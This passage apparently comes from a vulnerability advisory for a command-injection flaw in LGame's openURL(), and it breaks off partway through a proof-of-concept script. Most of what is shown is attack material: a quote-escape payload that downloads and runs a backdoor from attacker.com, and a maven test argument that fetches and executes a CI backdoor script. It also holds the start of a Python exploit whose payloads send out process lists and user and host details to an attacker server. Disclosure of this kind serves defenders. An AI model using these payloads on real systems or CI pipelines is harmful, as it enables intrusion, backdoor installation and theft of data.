 ```bash
sh -c "google-chrome \"http://updates.game.com\\\"; curl -o /tmp/backdoor http://attacker.com/payload.sh && chmod +x /tmp/backdoor && /tmp/backdoor & echo \\\"\" || firefox \"...\" || ..."
```

The escape sequence allows breaking out of the quotes and executing arbitrary commands.

### CI/CD Pipeline Compromise

In automated testing environments, the vulnerability can be triggered through configuration files:

**maven test command:**

```bash
mvn test -Dtest.help.url="http://docs.com & wget http://attacker.com/ci-backdoor.sh -O /tmp/setup.sh && bash /tmp/setup.sh & echo"
```

When the test suite calls `LGame.openURL()` with the help URL, command injection occurs in the CI environment.

## PoC

### Complete Exploitation Script

Save this script to `lgame_exploit.py`:

```python
#!/usr/bin/env python3
import argparse
import requests
import json
import time

def exploit_lgame(target_url, payload_type, attacker_server, proxy=None):
    """
    Exploit LGame command injection vulnerability
    """
    proxies = {'http': proxy, 'https': proxy} if proxy else None
    
    print(f">> Starting LGame exploitation against {target_url}")
    if proxy:
        print(f">> Using proxy: {proxy}")
    
    # Define platform-specific payloads
    payloads = {
        'windows_info': f"http://legitimate.com & echo %USERNAME%@%COMPUTERNAME% > %TEMP%\\info.txt & type %TEMP%\\info.txt & del %TEMP%\\info.txt & rem",
        'windows_exfil': f"http://legitimate.com & powershell -Command \"Get-Process | ConvertTo-Json | Invoke-WebRequest -Uri {attacker_server}/exfil -Method POST -Body $input\" & rem",
        'macos_info': f"http://legitimate.com; id > /tmp/info.txt; cat /tmp/info.txt; rm /tmp/info.txt; echo",
        'macos_exfil': f"http://legitimate.com; curl -X POST -d \"$(whoami)@$(hostname):$(pwd)\" {attacker_server}/collect; echo",
        'linux_escape': f"http://legitimate.com\\\\\\\"; touch /tmp/pwned_$(date +%s); ls -la /tmp/pwned_*; echo \\\\\\\""
    }
    
    if payload_type not in payloads:
        print(f"[-] Invalid payload type. Available: {', '.join(payloads.keys())}")
        return
    
    malicious_url = payloads[payload_type]
    
    try:
        print(f"[*] Step 1: Attempting to trigger openURL() via game configuration")
        
```